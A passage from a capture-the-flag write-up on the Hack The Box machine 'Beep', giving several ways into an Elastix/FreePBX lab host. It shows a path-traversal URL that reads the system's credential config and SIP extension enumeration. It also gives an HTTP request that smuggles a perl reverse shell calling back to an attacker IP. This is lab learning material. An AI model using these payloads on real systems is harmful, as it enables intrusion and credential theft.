
Getting the AMPortal config:

https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00&module=Accounts&action

We can then just SSH into the box as root once again.


## Solution #3 - FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution

There is another exploit for Elastix version 2.2.0.

This exploit is available as a Metasploit module and a standalone python exploit. To be able to use this we need to know a valid extension.

To find valid extensions we can use a tool in the sipvicious suite, namly the svwar tool.

```
root@kali:~/htb/beep# svwar -m INVITE -e100-500 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
| Extension | Authentication |
------------------------------
| 233       | reqauth        |
```

We found an externsion 233.

Now let's modify and try the python exploit.

The following lines in the exploit need to be modified:

```
rhost="10.10.10.7"
lhost="10.10.14.17"
lport=443
extension="233"
```

Running the exploit it throws some SSL errors on us, I tried to disable them and also port the exploit to using python requests but I still recieve the error. So Instead I redirect the traffic through burp and sen the exploit through.

```
GET /recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.6%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24~-%3efdopen%28%24c%2cw%29%3bsystem%24_%20while%3c%3e%3b%27%0D%0A%0D%0A&8081 HTTP/1.1
Host: 127.0.0.1
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.0
```

Catching the shell:
